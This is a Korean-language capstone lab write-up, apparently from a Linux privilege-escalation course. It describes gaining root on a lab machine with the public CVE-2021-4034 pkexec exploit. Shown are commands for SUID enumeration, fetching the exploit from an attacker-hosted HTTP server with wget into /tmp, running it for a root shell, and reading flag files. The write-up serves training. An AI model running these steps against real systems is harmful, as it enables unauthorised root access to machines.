








# Final Mission: Capstone Challenge

> Linux Privilege Escalation 실습의 마지막 단계인 Capstone Challenge에서, SUID로 설정된 `pkexec` 바이너리를 이용한 CVE-2021-4034(Local Privilege Escalation via Polkit) 익스플로잇을 활용해 루트 권한을 획득하고 플래그를 수집하였습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.47.252
- **공격 머신**: Kali Linux
- **사용 계정**: `leonard:Penny123`
- **공격 방식**: CVE-2021-4034 (Polkit pkexec Local Privilege Escalation)
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속 및 SUID 바이너리 확인

```bash
ssh leonard@10.10.47.252
```
- leonard 계정으로 타겟 머신에 SSH 접속하였다.



```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- SUID가 설정된 바이너리 목록에서 `/usr/bin/pkexec` 확인하였다.



---

### 2.2 Exploit 준비 및 Kali SSH 활성화
- Kali에서 SSH 서버를 실행하여 외부에서 접근 가능하도록 설정하였다.
```bash
systemctl start ssh
```


---

### 2.3 Exploit 다운로드 및 전송 (Windows → Kali)
- 사용한 파일: `CVE-2021-4034.py` (Polkit pkexec Exploit)
- 해당 파일은 [GitHub 링크](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)에서 다운로드하였으며, 이후 실습 환경에 맞춰 수정되었다.

- Windows에서 Kali로 scp 명령어를 이용해 CVE-2021-4034 exploit 파일을 전송함.

```powershell
scp D:/exploit_file/CVE-2021-4034.py root@<KALI-IP>:/root
```



---

### 2.4 Kali → Target 파일 전송 (HTTP 서버)
- Kali에서 HTTP 서버 구동 후, 타겟 머신에서 `wget`으로 파일 다운로드.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/CVE-2021-4034.py -O /tmp/exploit.py
```
- `/tmp` 디렉토리에 `exploit.py` 로 파일 이름 저장.



---

### 2.5 Exploit 실행 전 환경 확인 및 수정

- Target 머신에서 `/tmp/exploit.py` 확인 후 실행 시 python3가 없다는 에러 발생하였다.



- 후에 `vi exploit.py`로 파일 열고 python3 → python으로 shebang 수정.
- 또한 `:version` 명령어를 통해 `+python` / `-python3` 환경임을 확인하였다.
```bash
chmod +x exploit.py
```



---

### 2.6 Exploit 실행 및 루트 쉘 획득

- exploit.py를 실행하여 루트 쉘 획득 성공하였다.
```bash
./exploit.py
```



---

### 2.7 플래그 탐색 및 획득

```bash
find / -name flag1.txt
cat /home/missy/Documents/flag1.txt

find / -name flag2.txt
cat /home/root/flag/flag2.txt
```



---

## Exploit 파일 정보

- `/exploit/exploit.py`: 실습 환경에 맞춰 수정된 CVE-2021-4034 Python Exploit 스크립트입니다.
  - 수정사항: shebang을 `python3` → `python`으로 변경하여 대상 머신에서 실행 가능하도록 조정함
  - 원본 출처: [CVE-2021-4034 Python Exploit (GitHub)](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)


---

## 느낀 점
**Capstone Challenge를 통해 그동안 배운 권한 상승 기법 중 하나인 Kernel Exploit의 실제 활용**과, **SUID 기반 취약점 탐지 및 익스플로잇 환경 설정의 중요성을 복습할 수 있었다**. 특히 실행 환경의 python 버전과 같이, **사소하지만 중요한 요소가 Exploit 성공 여부를 좌우할 수 있다는 점을 체감**하였다.

